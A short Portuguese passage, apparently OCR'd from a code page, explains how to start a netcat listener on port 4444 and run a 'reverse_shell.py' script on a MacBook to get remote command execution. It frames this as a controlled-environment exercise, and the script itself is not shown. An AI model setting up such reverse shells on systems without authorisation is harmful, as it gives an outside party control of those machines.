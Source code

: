 Inicie o servidor de escuta em seu ambiente controlado em outra máquina ou em uma VM. Por exemplo, você pode usar o netcat (nc) para ouvir a porta 4444:

 # nc -lvp 4444

Execute o arquivo de script no seu Macbook digitando o seguinte comando no terminal:

 # python reverse_shell.py

Após a execução do arquivo de script, você deve ver uma conexão estabelecida no servidor de escuta. Agora você pode enviar comandos do servidor para o seu Macbook e obter a saída dos comandos executados no seu terminal.
